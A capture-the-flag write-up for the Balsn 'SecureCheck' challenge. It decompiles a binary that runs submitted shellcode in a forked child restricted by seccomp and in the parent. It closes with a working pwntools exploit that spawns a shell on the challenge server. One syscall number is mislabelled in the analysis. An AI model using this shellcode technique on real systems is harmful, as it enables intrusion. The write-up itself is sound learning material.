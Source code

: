# SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview

![overview](overview.png)

Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
~~~~
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
~~~~
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also in the `main`.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
~~~~
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
~~~~
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?

![install_syscall_filter variables](stack.png)

Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3c}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, 
l5, l6 
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting,
 - 0x3e/62 - kill
 - 0x3c/60 - exit
 - 0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
~~~~
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
~~~~
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

